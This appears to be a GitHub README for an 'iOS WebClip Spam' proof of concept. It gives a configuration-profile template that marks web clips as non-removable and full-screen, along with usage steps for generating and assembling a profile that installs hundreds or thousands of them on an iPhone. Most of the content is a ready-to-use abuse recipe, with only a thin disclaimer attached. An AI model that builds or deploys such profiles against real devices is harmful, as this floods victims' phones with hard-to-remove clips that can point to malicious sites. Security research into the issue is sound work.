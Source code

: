 # iOS WebClip Spam PoC

## Overview

This repository demonstrates a proof-of-concept (PoC) for how iOS WebClips could potentially be exploited to place hundreds/thousands of semi-unremovable, potentially harmful web clips on a user's iPhone via a '.mobileconfig' configuration profile.

## ⚠️ Disclaimer

This PoC is for educational and research purposes only. Do not use this for any malicious activities. Always respect applicable laws and regulations.

## Proof of Concept

This PoC demonstrates how a malicious actor could create a configuration profile that installs multiple WebClips at once, potentially overwhelming the user's device.

### Unremovable Configuration Profile Structure

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>PayloadContent</key>
    <array>
        <dict>
            <key>FullScreen</key>
            <true/>
            <key>IgnoreManifestScope</key>
            <true/>
            <key>IsRemovable</key>
            <false/>
            <key>Label</key>
            <string>[APP_LABEL]</string>
            <key>Icon</key>
            <data>[BASE64_ENCODED_IMAGE]</data>
            <key>Precomposed</key>
            <true/>
            <key>URL</key>
            <string>[URL]</string>
            <key>PayloadIdentifier</key>
            <string>[ID]</string>
            <key>PayloadType</key>
            <string>com.apple.webClip.managed</string>
            <key>PayloadUUID</key>
            <string>[UUID]</string>
            <key>PayloadVersion</key>
            <integer>1</integer>
        </dict>
    </array>
</dict>
</plist>
```

### Usage

1. Modify the placeholders in the <dict> element inside the array:
   - Replace [APP_LABEL] with the desired name for the WebClip
   - Replace [BASE64_ENCODED_IMAGE] with the Base64-encoded icon image data
   - Replace [URL] with the target website URL

2. Save the modified <dict> (with placeholders replaced) in a text file named "mobileConfig.txt".

3. Run the Python script "autoCreate.py" and input how many WebClips you want. This script will automatically replace [ID] and [UUID] with appropriate values.

4. After running the script, you'll receive an output .mobileconfig file. Open this file and add the following at the top:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>PayloadContent</key>
    <array>
```

5. At the bottom of the .mobileconfig file, add:

```
   </array>
</dict>
</plist>
```

6. The .mobileconfig file is now complete and ready to use.

## References

- [Apple Configuration Profile Reference](https://developer.apple.com/business/documentation/Configuration-Profile-Reference.pdf)
- [WebClip MDM Payload Settings](https://support.apple.com/guide/mdm/web-clips-mdm54f9b61d/web)
